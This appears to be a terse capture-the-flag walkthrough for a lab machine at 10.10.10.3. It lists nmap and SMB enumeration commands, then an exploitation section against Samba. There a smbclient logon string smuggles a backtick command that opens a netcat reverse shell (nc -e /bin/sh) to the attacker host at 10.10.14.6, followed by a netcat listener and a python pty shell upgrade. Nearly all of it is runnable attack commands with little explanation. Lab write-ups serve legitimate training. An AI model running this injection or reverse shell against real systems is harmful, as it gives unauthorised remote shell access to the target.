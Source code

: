 #   CMD 

```
nmap -sC -sV 10.10.10.3
```
-sC: run default nmap scripts <br>
-sV: detect service version

```
ls /usr/share/nmap/scripts/ftp*
```
/usr/share/nmap/scripts/ftp-anon.nse<br>
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse<br>
/usr/share/nmap/scripts/ftp-bounce.nse <br>
/usr/share/nmap/scripts/ftp-syst.nse<br>
/usr/share/nmap/scripts/ftp-brute.nse
/usr/share/nmap/scripts/ftp-libopie.nse <br>
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
<h5>/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse</h5>

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```
```
ls /usr/share/nmap/scripts/ssh*
```
```
smbclient -L 10.10.10.3
```
```
smbmap -H 10.10.10.3
```

#   Exploitation #1: Samba

```
nc -nlvp 4444
```
```
smbclient //10.10.10.3/tmp
```
```
logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
```
```
python3 -c 'import pty;pty.spawn("/bin/bash")' 
```
